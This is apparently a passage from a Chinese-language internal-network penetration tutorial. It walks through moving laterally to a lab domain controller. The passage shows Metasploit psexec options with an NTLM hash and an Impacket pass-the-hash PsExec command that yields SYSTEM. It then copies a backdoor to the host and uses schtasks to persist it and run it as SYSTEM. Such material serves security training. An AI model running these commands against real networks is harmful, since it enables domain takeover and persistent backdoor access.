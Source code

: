![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-af6a55d83503679ea7733f0a6da8a0c1.png)  
如果我们使用msf自带的: use exploit/windows/smb/psexec模块，因为域控主机开启了防火墙，组织程序进出，所以无论payload是bind或reserve都失败：  
set rhosts 10.10.10.165  
set smbuser administrator  
set smbpass aad3b435b51404eeaad3b435b51404ee:357bec0ee1f524c62ba536fcd3f74472  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-88141516425d56143d398872d6b8d2ca.png)  
我们可以使用第三方Impacket工具包中的smbexec和psexec进行pth，执行下面命令：  
PsExec -hashes :357bec0ee1f524c62ba536fcd3f74472 ATTACK/Administrator@10.10.10.165 "whoami"，连接到域控主机当前是system权限  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-38e037299230a57d53aa3559660a57d8.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-60105d195a6eb464d39680d908bc45f3.png)  
使用copy命名把后门复制到域控中：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8b83eed729e3777f7d7ec1fb50f66548.png)  
使用如下命令  
Schtasks /create /s 10.10.10.165 /ru "SYSTEM" /tn executefile /sc DAILY /tr c:/hb.exe /F  
Schtasks /run /s 10.10.10.165 /tn executefile /i  
创建计划任务，执行相关后门：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8f26536f314eb6e8cc2a19062cf9ef23.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-ea5a54543dbf7c85aa37eb97d636d822.png)

# 参考:

https://www.moonsec.com/  
内网安全攻防

---------------------------------------------------

